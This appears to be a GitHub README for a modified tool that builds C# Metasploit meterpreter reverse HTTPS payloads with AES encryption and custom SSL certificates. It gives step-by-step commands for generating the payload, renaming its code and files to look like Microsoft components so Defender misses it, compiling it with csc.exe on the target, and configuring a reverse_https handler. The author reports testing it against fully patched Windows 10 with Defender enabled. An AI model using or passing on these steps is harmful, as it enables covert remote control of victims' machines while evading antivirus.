 # Modified_CsharpMMNiceness
modified https://github.com/fullmetalcache/CsharpMMNiceness to support msf5 options.

Great code by fullmetalcache. I added options to use msf5 encrypt and use custom SSL certs in https payloads.

example:
python mod_nice.py -a x64 -P https -l 127.0.0.1 -p 443 -e aes256 -k test123 -ssl msfkey.pem -s

These are my testing steps, I tested both staged and stageless https on a fully patched Windows 10 running Defender real-time and cloud-based protections all fully updated.

1. Set up cert (obviously you can use other certs but I did not test that):
After installing Letsencrypt you need to combine 2 keys to use for the reverse https payload, Letsencrypt stores them in /etc/letsencrypt/live/<yourdomain>/
cat privkey.pem cert.pem >> msfkey.pem
 
2. run the python script:
python mod_nice.py -a x64 -P https -l (listener address) -p 443 -e aes256 -k test123 -ssl /path/msfkey.pem -s
 
3. The script outputs a cs template called mmniceness.cs. Find and replace all function names and variables, etc. I also renamed it to sound like some Microsoft kind of thing, like msvct.cs.
 
4. Move msvct.cs to the Windows target (or precompile but I didn’t test that). 
C:\Windows\Microsoft.NET\Framework64\<whatever version>\csc.exe /unsafe /platform:x64 /out:C:\Windows\Temp\test\msvct.exe C:\Windows\Temp\test\msvct.cs
 
5. set up the handler, staged= windows/x64/meterpreter/reverse_https, stageless= windows/x64/meterpreter_reverse_https
enable https options:
set HANDLERSSLCERT /path/msfkey.pem
set stagerverifysslcert true (don't need this on stageless)
